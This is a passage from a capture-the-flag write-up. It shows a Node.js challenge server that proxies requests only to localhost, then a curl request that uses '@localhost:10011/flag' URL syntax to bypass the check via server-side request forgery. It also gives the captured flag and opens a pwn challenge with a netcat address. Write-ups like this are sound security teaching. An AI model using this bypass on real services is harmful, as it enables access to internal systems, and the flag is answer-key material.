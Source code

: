 ```js
            const parsedUrl = new URL(url)
    
            if (parsedUrl.hostname !== 'localhost') {
                // Is it even possible to get in here???
                res.send('sorry, you can only talk to localhost')
            }
            else {
                // Make the request and return its content as our content.
                http.get(parsedUrl.href, ssrfRes => {
                    let contentType = ssrfRes.headers['content-type']

                    let body = ''
                    ssrfRes.on('data', chunk => {
                        body += chunk
                    })

                    ssrfRes.on('end', () => {
                        if (contentType) {
                            res.setHeader('Content-Type', contentType)
                        }
                        res.send(body)
                    })
                }).on('error', function(e) {
                    res.send("Got error: " + e.message)
                })
            }
        }
    }
})

// this port is exposed publicly 
app.listen(publicPort, () => {
  console.log(`Listening on ${publicPort}`)
})
```

Alright, so what we did last time will not work here as the first character cannot be a digit. We can however still change the host we're sending a request to using the `@` syntax in a URL. It can be done with something like:

```
curl https://wsc-2022-web-1-bvel4oasra-uc.a.run.app/ssrf?path=@localhost:10011/flag
```

**Flag:** `wsc{url_synt4x_f0r_th3_w1n_hq32pl}`



### babyRet

> As promised a pwn challenge...
> 
> nc 107.191.51.129 5000

